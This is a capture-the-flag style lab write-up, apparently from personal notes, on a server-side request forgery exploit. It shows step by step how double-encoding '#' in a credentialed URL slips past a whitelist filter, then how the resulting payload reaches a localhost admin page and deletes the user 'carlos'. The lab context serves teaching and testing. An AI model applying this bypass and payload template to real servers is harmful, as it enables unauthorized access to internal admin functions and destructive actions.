 problem: white list of "stock.weliketoshop.net" site:
solution: 
1. bypass whitelist
2. inject payload

bypass: finding a payload that will be parsed diffrently on the waf engine and in the server parser, to our advantage:

**stage 1 planning payload structure:**

http://username@weliketoshop.net // 500 whitelist approved. server supports credentials so waf approve different string in the start
http://username#@weliketoshop.net  // 400 whitelist denied - suggets waf treats part before # as url and after as fragment
http://username%23@weliktoshop.net // 400 urlencode # to %23 - still denied (waf smart to check for urlencoding)
http://username%2523@weliktoshop.net // 500 double encode # to %2523 - whitelist approved (waf not smart to check for double urlencoding) but server does double decode and treats %2523 as # 

**we have a method to sneak our payload through the waf whitelist!**



**stage 2. crafting the payload:** 

conecting to the local host to delete a user:

http://localhost%2523@weliketoshop.net // 200 server response to our payload - application exist and listening
http://localhost%2523@stock.weliketoshop.net/admin // 200 server provides access to priviliged page alowing accsses to limited actions:
http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos // 302 successfuly deleted carlos

**lab solved**

# **payload structure:**
    {protocol}{payload}%2523{whitelisted.site}

{protocol} = **http://**

{payload} =
1. **localhost** - pointing the server to itself
2. **\#** - double encoded into "%2523" to fool waf
3. **@** - if acccepted => indicates URL parser supports embedded credentials (to connect to a username in the system)
4. **stock.weliketoshop.net**  - the site approved by a whitelist
5. **/admin/delete?username=carlos** - our actual command 


**how waf parse it:**
1. **username:** localhost%23
2. **white listed approved url:** stock.weliketoshop.net/admin/delete?username=carlos


**how server parse it:**
1. **url:** localhost
2. **url fragment(ignored):** #@stock.weliketoshop.net
3. **url subdirectories:** /admin/delete?username=carlos  (according to RFC 3986 path section starts with the **/**  char)
